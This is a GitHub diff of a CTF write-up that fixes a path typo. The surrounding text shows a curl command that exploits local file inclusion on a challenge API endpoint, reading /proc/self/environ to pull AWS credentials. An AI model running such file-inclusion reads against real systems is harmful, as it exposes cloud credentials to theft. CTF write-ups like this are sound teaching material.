

Before and after one commit to sebrink/teamincompetent, a Markdown page: ctfWriteup.md, the part around the change. Drawn GitHub-style.

````diff
--- a/ctfWriteup.md
+++ b/ctfWriteup.md
@@ -72,7 +72,7 @@ Then, we found that it can take a file prefix in the JSON:
 This is local file inclusion!
 ![web4](img/web4.png)
 
-After we determined we had LFI on this endpoint, we grabbed the `/prof/self/environ` file in order to pull AWS credentials from the host (the sed line is some parsing to make this look nicer):
+After we determined we had LFI on this endpoint, we grabbed the `/proc/self/environ` file in order to pull AWS credentials from the host (the sed line is some parsing to make this look nicer):
 ```
 $ curl -H "authorizationToken:flag-{gtkO4f4NOrJsRRNZWxiTbL6LLUs5Ir8g}" -d "{\"codeFile\": \"file:///proc/self/environ\"}"  https://jg0rh6th8e.execute-api.ap-south-1.amazonaws.com/test/share | sed 's/\\x00/\n/g'
 
````
